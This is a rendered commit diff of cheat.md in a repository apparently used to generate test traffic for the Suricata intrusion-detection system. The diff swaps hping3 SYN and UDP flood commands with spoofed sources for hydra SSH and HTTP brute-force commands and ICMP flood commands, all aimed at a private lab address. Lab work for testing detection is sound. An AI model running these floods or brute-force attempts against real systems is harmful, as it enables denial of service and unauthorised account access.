

Before and after one commit to LEVI6957/SuricataEVE, a Markdown page: cheat.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
fix: ganti SYN/UDP flood dengan SSH Brute Force & ICMP di cheat.md

````diff
--- a/cheat.md
+++ b/cheat.md
@@ -19,18 +19,27 @@ sudo nmap -S 192.168.216.101 -e eth0 -sV -sC -A -T5 -p 1-65535 192.168.216.128 -
 
 ---
 
-## 2️⃣ SYN Flood — hping3
+## 2️⃣ SSH Brute Force — hydra
 
 ```bash
-sudo hping3 -S -a 192.168.216.102 -I eth0 -p 80 --flood 192.168.216.128
+hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.216.128 -t 4 -V
+```
+```bash
+hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p 123456 ssh://192.168.216.128 -t 4 -V
+```
+```bash
+hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://192.168.216.128/ -V
 ```
 
 ---
 
-## 3️⃣ UDP Flood — hping3
+## 3️⃣ ICMP Flood — ping
 
 ```bash
-sudo hping3 --udp -a 192.168.216.103 -I eth0 -p 53 --flood 192.168.216.128
+sudo ping -f -c 1000 -s 65500 192.168.216.128
+```
+```bash
+sudo hping3 -1 -a 192.168.216.103 -I eth0 -c 500 192.168.216.128
 ```
 
 ---
````
